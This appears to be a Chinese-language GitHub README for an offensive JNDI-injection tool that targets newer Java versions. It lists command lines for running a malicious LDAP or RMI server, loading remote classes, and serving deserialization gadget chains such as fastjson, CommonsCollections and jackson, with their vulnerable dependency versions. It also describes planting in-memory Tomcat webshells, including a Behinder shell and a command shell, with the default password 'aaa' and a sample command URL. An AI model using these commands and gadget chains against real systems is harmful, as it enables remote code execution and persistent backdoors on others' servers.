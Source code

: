## LDAPDeserialize-tool
一款针对高版本JDK的JNDI注入工具

### 依赖环境
JDK8

### 功能描述
#### 使用简述
```shell
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip
内存马注入：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c TomcatListenerBehinderByLei
```
#### 参数说明
```shell
 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令，或指定所要打的内存马类型（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```
#### 支持说明
```
【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)

* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)

【目前支持的内存马类型】
目前所有内存马默认密码均为：aaa
TomcatListenerBehinderByLei (tomcat listener冰蝎马，打入改版的马子，需用改版的冰蝎ByLei)
TomcatListenerCMD （tomcat listener cmd马，http://ip:port/xx/zz?pass=aaa&cmd=whoami）
```

### 使用演示
#### 使用指定反序列化文件

使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作

![截图](image/cc370864ddff7bce2c17cdf15b6b2df3.png)

#### 使用指定反序列化数据

使用base64编码后的序列化数据启动

![截图](image/10b93a10ec217bb82424756bc05c413b.png)

#### 使用内置反序列化链

![截图](image/99b85665c9c03cedeb281f5729c6d945.png)

#### 使用RMI反序列化方式

当前RMI反序列化方式仅支持内置的反序列化链

![截图](image/e49210b2672c44f1ba10bd784bbefc56.png)

#### 内存马注入
##### CMD马

![截图](image/Snipaste_2024-08-06_17-10-12.png)

![截图](image/Snipaste_2024-08-06_17-14-38.png)


##### 冰蝎马

![截图](image/image-20240806154150477.png)

![截图](image/Snipaste_2024-08-06_15-43-51.png)

![截图](image/Snipaste_2024-08-06_15-45-48.png)

### TODO
- 增加内存马类型及兼容性

### Star

[![恒星历史图表](https://api.star-history.com/svg?repos=C3P0ooo/LDAPDeserialize-tool&type=Timeline)](https://star-history.com/#C3P0ooo/LDAPDeserialize-tool&Timeline)

![GitHub lerna version](https://img.shields.io/github/lerna-json/v/:user/:repo)
